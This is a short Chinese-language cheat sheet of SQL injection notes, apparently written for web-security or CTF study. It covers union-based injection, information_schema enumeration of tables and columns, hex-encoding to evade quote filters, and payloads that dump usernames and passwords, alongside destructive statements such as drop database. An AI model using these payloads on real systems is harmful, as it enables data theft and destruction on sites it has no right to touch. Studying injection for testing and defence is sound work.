 ```sql
delete from table_name where id=1;		-- 不加限制条件将删除整张表
drop database ds_name;
drop column column_name;
alter table table_name;
update table_name set column_name='new' where id=1;  -- 更新
/*!50000select*/
where id = 0.1 union select ...
xor, ||, &&, !, not，<>
```



### 类型

##### union 注入

所查询的字段数需与主查询一致

字段数可先用 order by x 来确定

```sql
union select 1, 2 from user where id = 1 or 1=1
```



##### information_schema 注入

存储数据库信息的数据库

> **数据库名**
>
> schemata => schema_name
>
>tables => table_schema
>
>columns => table_schema
>
>**表名**
>
>tables => table_name
>
>columns => table_name
>
>**列名**
>
>columns => columns_name

```sql
select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database() -- 获取当前数据库中所有表
select 1,group_concat(column_name) from information_schema.columns where table_name=0x7365637265745f666c6167; -- 获得所有列名（字段），table_name 参数进行十六进制编码后可绕过引号被过滤
-1′ or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
-- 下载数据
-1′ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #  -- 获取表中的字段名
```

